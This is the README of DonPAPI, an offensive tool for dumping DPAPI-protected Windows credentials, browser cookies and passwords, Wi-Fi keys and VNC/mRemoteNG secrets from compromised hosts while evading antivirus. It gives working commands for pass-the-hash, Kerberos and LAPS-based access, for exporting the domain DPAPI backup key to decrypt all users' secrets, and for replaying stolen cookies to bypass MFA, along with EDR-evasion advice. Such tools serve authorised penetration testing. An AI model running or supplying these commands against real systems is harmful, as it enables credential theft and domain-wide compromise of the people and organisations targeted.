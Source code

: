# DonPAPI

Dumping revelant information on compromised targets without AV detection
![alt text](https://github.com/login-securite/DonPAPI/blob/main/res/Logo%20DonPapi.png)


## DPAPI dumping

Lots of credentials are protected by [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection).

We aim at locating those "secured" credentials, and retrieve them using :

- User password
- Domaine DPAPI BackupKey
- Local machine DPAPI Key (protecting `TaskScheduled` blob)

## Curently gathered info

- Windows credentials (Taskscheduled credentials & a lot more)
- Windows Vaults
- Windows RDP credentials 
- AdConnect (still require a manual operation)
- Wifi key
- Internet explorer Credentials
- Chrome cookies & credentials
- Firefox cookies & credentials
- VNC passwords
- mRemoteNG password (with default config)

## Check for a bit of compliance

- SMB signing status
- OS/Domain/Hostname/Ip of the audited scope

## Operational use

With local admin account on a host, we can :

- Gather machine protected DPAPI secrets
  - ScheduledTask that will contain cleartext login/password of the account configured to run the task
  - Wi-Fi passwords
- Extract Masterkey's hash value for every user profiles (masterkeys beeing protected by the user's password, let's try to crack them with Hashcat)
- Identify who is connected from where, in order to identify admin's personal computers. 
- Extract other non-dpapi protected secrets (VNC/Firefox/mRemoteNG)
- Gather protected secrets from IE, Chrome, Firefox and start reaching the Azure tenant.

With a user password, or the domain PVK we can unprotect the user's DPAPI secrets.  

- Use cookies to bypass MFA (https://www.eshlomo.us/pass-the-cookie-crumble-the-cloud/)

## Examples
### Authenticate with 

Dump all secrets of the target machine with an Domain admin account : 

```bash
DonPAPI.py domain/user:passw0rd@target
```
or a Local one : 
```
DonPAPI.py -local_auth user@target
```
Using PtH

```bash
DonPAPI.py --hashes <LM>:<NT> domain/user@target
```

Using kerberos (-k)

```bash
DonPAPI.py -k domain/user@target
```

Using a user with LAPS password reading rights

```bash
DonPAPI.py -laps domain/user:passw0rd@target
```

Using relayed socks :  
![HackndoRealying](https://pbs.twimg.com/media/FAnPpHjX0AE16r9?format=jpg&name=medium)

### Decrypt secrets 

to decrypt secrets DonPapi might need :
- Nothing, when facing reversible encryption (firefox, mremoteNG, VNC)
- the machine DPAPI Key, we will fetch it automatically thanks to secretdumps when having an admin acces (Wifi, scheduled task passwords)
- the user password for everything related to DPAPI Protection, or de DPAPI Domain Backup key

It is possible to provide a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

```plain
user1:pass1
user1:pass2
user2:passX
...
```

```bash
DonPAPI.py -credz credz_file.txt domain/user:passw0rd@target
```

When a domain admin user is available, it is possible to dump the domain backup key using impacket `dpapi.py` tool: 

```bash
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
```

This backup key (pvk file) can then be used to dump all domain user's secrets!

`python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list`

### Select targets
Target can be an IP, IP range, CIDR, FQDN, file containing list targets (one per line)

## Reports & raw data
DonPapi will extract and consolidate a bunch of raw information 
- raw user and passwords in 'raw_credz' 
- raw cookies 
- raw sam hash
- raw users masterkey's hash (Good luck with cracking those, but it might be the only hash you'll get for some SuperAdmin Accounts)
- raw DCC2

HTML Reports will be created, as you'll probably have so many passwords that your browser will crash rendering it, i tried to separate those in few reports.

Cookies are great to bypass MFA, by clicking on a cookie in the report you'll copy what you need to paste to cookie in your browser dev console.

some info are excluded from the reports, you can still acces all the data in the sqlite3 donpapi.db database.


## Opsec consideration

The RemoteOps part can be spoted by some EDR (it's basically a secretdump). It can be disabled using `--no_remoteops` flag, but then the machine DPAPI key won't be retrieved, and scheduled task credentials/Wi-Fi passwords won't be harvested. 

## Installation

```
git clone https://github.com/login-securite/DonPAPI.git
cd DonPAPI
python3 -m pip install -r requirements.txt
python3 DonPAPI.py
```

or

```
git clone https://github.com/login-securite/DonPAPI.git
cd DonPAPI
poetry install
poetry run donpapi
```

## Credits

All the credits goes to these great guys for doing the hard research & coding :

- Benjamin Delpy ([@gentilkiwi](https://twitter.com/gentilkiwi)) for most of the DPAPI research (always greatly commented, <3 your code)
- Alberto Solino ([@agsolino](https://twitter.com/agsolino)) for the tremendous work of Impacket (https://github.com/SecureAuthCorp/impacket). Almost everything we do here comes from impacket. 
- [Alesandro Z](https://github.com/AlessandroZ) & everyone who worked on Lazagne (https://github.com/AlessandroZ/LaZagne/wiki) for the VNC & Firefox modules, and most likely for a lots of other ones in the futur. 
- dirkjanm [@_dirkjan](https://twitter.com/_dirkjan) for the base code of adconnect dump (https://github.com/fox-it/adconnectdump) & every research he ever did. I learned so much on so many subjects thanks to you. <3
- [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for CME (lots of inspiration and code comes from CME : https://github.com/byt3bl33d3r/CrackMapExec )
- All the Team at [@LoginSecurite](https://twitter.com/LoginSecurite) for their help in debugging my shity code (special thanks to [@layno](https://github.com/clayno) & [@HackAndDo](https://twitter.com/HackAndDo) for that)

## Todo

- Finish ADSync/ADConnect password extraction
- CREDHISTORY full extraction
- Extract windows Certificates
- Further analysis ADAL/msteams
- Implement Chrome <v80 decoder
- Find a way to implement Lazagne's great modules

# Changelog

  ```
  v1.0
  ----
  Initial release
  ```
